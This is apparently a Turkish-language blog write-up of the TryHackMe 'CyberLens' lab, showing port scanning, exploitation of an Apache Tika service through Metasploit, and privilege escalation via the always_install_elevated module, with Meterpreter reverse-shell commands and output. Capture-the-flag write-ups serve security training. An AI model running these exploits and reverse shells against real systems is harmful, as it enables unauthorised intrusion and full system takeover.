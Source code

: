 ```yaml
---
title: 'TryHackMe | CyberLens WriteUp'
author: appdone
categories: [TryHackMe Challenges]
render_with_liquid: false
media_subpath: /images/tryhackme_cyberlens/
image:
  path: logo.webp
---
```


Bu yazımda, TryHackMe platformunda yer alan "CyberLens" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-16 05:34 EDT
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.57 ((Win64))
|_http-server-header: Apache/2.4.57 (Win64)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-03-15T09:33:29
|_Not valid after:  2025-09-14T09:33:29
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-03-16T09:35:12+00:00
|_ssl-date: 2025-03-16T09:35:20+00:00; +3s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

SMB servisine misafir olarak bağlanamadığımdan doğrudan web uygulamasına yöneleceğim.

![upload form](1.webp){: width="900" height="500" }

Web uygulamasında resimlerden meta verilerini çıkaran bir form var ama çalışmıyor. Sayfanın kaynak kodunu görüntülediğimizde aşağıdaki javascript kodu ile karşılaşıyoruz.

```js
document.addEventListener("DOMContentLoaded", function() {
    document.getElementById("metadataButton").addEventListener("click", function() {
        var fileInput = document.getElementById("imageFileInput");
        var file = fileInput.files[0];

        var reader = new FileReader();
        reader.onload = function() {
            var fileData = reader.result;

            fetch("http://cyberlens.thm:61777/meta", {
                method: "PUT",
                body: fileData,
                headers: {
                    "Accept": "application/json",
                    "Content-Type": "application/octet-stream"
                }
            })
            .then(response => {
                if (response.ok) {
                    return response.json();
                } else {
                    throw new Error("Error: " + response.status);
                }
            })
            .then(data => {
                var metadataOutput = document.getElementById("metadataOutput");
                metadataOutput.innerText = JSON.stringify(data, null, 2);
            })
            .catch(error => {
                console.error("Error:", error);
            });
        };

        reader.readAsArrayBuffer(file);
    });
});
```

Kodu incelediğimizde 61777 numaralı port’a bir PUT isteğinde bulunduğunu görüyoruz. Girilen dosya bu sayfaya gönderiliyor.

![web server](2.webp){: width="900" height="500" }

Gördüğünüz üzere apache tika adında bir servis çalışıyor. Bu servisi sürümüyle beraber internette arattığımızda bir [github](https://www.rapid7.com/db/modules/exploit/windows/http/apache_tika_jp2_jscript/) sayfası ile karşılaşıyoruz.

Metasploit üzerinde bu servisi sömürebileceğimiz bir exploit bulunuyor. Exploit'i kullanmadan da bağlantı elde edebiliriz, ancak "windows exploit suggester" modülünü kullanacağım için metasploit'i kullanacağım.

```console
...
[*] Sending PUT request to 10.10.231.162:61777/meta
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Sending stage (177734 bytes) to 10.10.231.162
[*] Meterpreter session 1 opened (10.21.66.61:4444 -> 10.10.231.162:49759) at 2025-03-16 05:45:45 -0400

(Meterpreter 1)(C:\Windows\system32) >
```

Bağlantı elde ettikten sonra C:\Users\CyberLens\Desktop dizininden kullanıcı bayrağını aldım ve nasıl yetki yükseltebileceğimi öğrenmek için "post/multi/recon/local_exploit_suggester" modülünü kullandım.

```console
...
[+] 10.10.231.162 - exploit/windows/local/always_install_elevated: The target is vulnerable.
...
```

Kontroller sonucunda "always install elevated" ayarının açık olduğunu öğrendim. Bu ayar normal kullanıcıların yönetici yetkisiyle dosya yükleyebilmesini sağlıyor. Tekrar metasploit üzerinde bulunan exploit’i kullanacağım.

```console
(Meterpreter 1)(C:\Windows\system32) > run exploit/windows/local/always_install_elevated LHOST=tun0 LPORT=1234
[*] Started reverse TCP handler on 10.21.66.61:1234 
[*] Uploading the MSI to C:\Users\CYBERL~1\AppData\Local\Temp\1\hqrKiig.msi ...
[*] Executing MSI...
[*] Sending stage (177734 bytes) to 10.10.231.162
[+] Deleted C:\Users\CYBERL~1\AppData\Local\Temp\1\hqrKiig.msi
[*] Meterpreter session 2 opened (10.21.66.61:1234 -> 10.10.231.162:49781) at 2025-03-16 05:49:48 -0400
[*] Session 2 created in the background.
```

Exploit'i çalıştırdıktan sonra yönetici yetkisinde bir oturum açılıyor. Yönetici bağlantısının olduğu oturuma geçtikten sonra masaüstünden son bayrağı alıyoruz.

```console
(Meterpreter 2)(C:\Users\Administrator\Desktop) > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  527   fil   2016-06-21 11:36:17 -0400  EC2 Feedback.website
100666/rw-rw-rw-  554   fil   2016-06-21 11:36:23 -0400  EC2 Microsoft Windows Guide.website
100666/rw-rw-rw-  24    fil   2023-11-27 14:50:45 -0500  admin.txt
100666/rw-rw-rw-  282   fil   2021-03-17 11:13:27 -0400  desktop.ini

(Meterpreter 2)(C:\Users\Administrator\Desktop) > cat admin.txt 
THM{***}
```
